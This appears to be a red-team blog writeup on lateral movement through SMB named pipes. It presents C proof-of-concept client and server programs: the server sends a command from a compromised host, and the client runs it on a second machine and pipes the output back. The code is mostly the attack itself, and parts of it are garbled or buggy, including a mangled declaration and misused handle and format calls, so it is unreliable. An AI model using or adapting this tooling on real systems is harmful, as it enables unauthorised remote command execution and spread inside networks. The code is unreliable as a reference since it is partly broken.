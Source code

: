 ```yaml
---
layout: post
title: "30 days of Red- Day 4"
date: 2021-4-3 00:00:00 -0400
categories: Writeup
---
```




```C


███████╗    ██████╗  █████╗ ██╗   ██╗███████╗     ██████╗ ███████╗    ██████╗ ███████╗██████╗ 
╚════██║    ██╔══██╗██╔══██╗╚██╗ ██╔╝██╔════╝    ██╔═══██╗██╔════╝    ██╔══██╗██╔════╝██╔══██╗
    ██╔╝    ██║  ██║███████║ ╚████╔╝ ███████╗    ██║   ██║█████╗      ██████╔╝█████╗  ██║  ██║
   ██╔╝     ██║  ██║██╔══██║  ╚██╔╝  ╚════██║    ██║   ██║██╔══╝      ██╔══██╗██╔══╝  ██║  ██║
   ██║      ██████╔╝██║  ██║   ██║   ███████║    ╚██████╔╝██║         ██║  ██║███████╗██████╔╝
   ╚═╝      ╚═════╝ ╚═╝  ╚═╝   ╚═╝   ╚══════╝     ╚═════╝ ╚═╝         ╚═╝  ╚═╝╚══════╝╚═════╝ 
                                                                                              


██████╗  █████╗ ██╗   ██╗    ██╗  ██╗
██╔══██╗██╔══██╗╚██╗ ██╔╝    ██║  ██║
██║  ██║███████║ ╚████╔╝     ███████║
██║  ██║██╔══██║  ╚██╔╝      ╚════██║
██████╔╝██║  ██║   ██║            ██║
╚═════╝ ╚═╝  ╚═╝   ╚═╝            ╚═╝
                                     
```



## Lateral Movement with Named Pipes

When using named pipes which utilize the SMB protocol, you can establish a client,server connection between two endpoints. The server endpoint will be on your compromised host and the client will be on the machine your compromised user has access to in some way. A few known methods of doing this in the past, have been **`PsExec`** and Cobalt's Strike implementation **`PsExec(psh)`**. The former achieved this by logging into the $ADMIN share and dropping a exe file, that established a named pipe connection to the compromised machine. The later achieved this by logging into the $ADMIN share, but instead of dropping an exe file it instead ran base64 encoded Powershell to establish a named pipe connection to the compromised machine. The Poc below is two exes, a server named pipe and a client named pipe. The scenario is that you have already connected to the $ADMIN share and dropped your client exe unto the machine, and it simply executes one command and writes it back through named pipe to your compromised machine.

```c
Client Named Pipe: Usage: clientnamedpipe.exe [ip here where server endpoint is hosted ] testpipe
#include <windows.h>
#include <stdio.h>

#define MAX_SIZE 1024

int main(int argc,char **argv){

DWORD dRead;
CHAR _RemoteNamedPipe= (CHAR_)GlobalAlloc(GPTR,MAX_SIZE);
DWORD dWritten = 0;
char command[MAX_SIZE];
char output[MAX_SIZE];
snprintf(RemoteNamedPipe,MAX_SIZE,"\\\\%s\\pipe\\%s",argv[1],argv[2]);
printf("Connecting to %s\n", RemoteNamedPipe);
HANDLE hPipe = CreateFile(RemoteNamedPipe,GENERIC_READ|GENERIC_WRITE,FILE_SHARE_READ|FILE_SHARE_WRITE,NULL,
                          OPEN_ALWAYS,FILE_ATTRIBUTE_NORMAL,NULL);
printf("0x%p\n",hPipe);
ReadFile(hPipe,command,MAX_SIZE,&dRead,NULL);
printf("%s\n",command);
FILE *pPipe= _popen(command,"r");
while(fgets(output,MAX_SIZE,pPipe)){
puts(output);
}
printf("%s\n",output);
WriteFile(hPipe,output,strlen(output),&dWritten,NULL);

CloseHandle(pPipe);
CloseHandle(RemoteNamedPipe);
GlobalFree(RemoteNamedPipe);

}

```

```c
Server Named Pipe: Usage: servernamedpipe.exe "whoami"

#include <windows.h>
#include <stdio.h>
#define MAX_SIZE 1024

int main(int argc,char **argv){
DWORD dwRead;
DWORD dWrote=0;
char buffer[MAX_SIZE];
HANDLE hPipe= CreateNamedPipeA("\\\\.\\pipe\\testpipe",PIPE_ACCESS_DUPLEX,PIPE_TYPE_BYTE|PIPE_READMODE_BYTE,
                                PIPE_UNLIMITED_INSTANCES,MAX_SIZE,0,10000,NULL);
printf("hPipe 0x%p\n",hPipe);
ConnectNamedPipe(hPipe,NULL);
WriteFile(hPipe,argv[1],strlen(argv[1]),&dWrote,NULL);
ReadFile(hPipe,buffer,MAX_SIZE,&dwRead,NULL);

printf("We received this amount of data %d\n",dwRead);
for(int i=0;i<sizeof(buffer);i++){
printf("This is the data %s\n",buffer[i]);
}

DisconnectNamedPipe(hPipe);
CloseHandle(hPipe);
return 0;

}
```

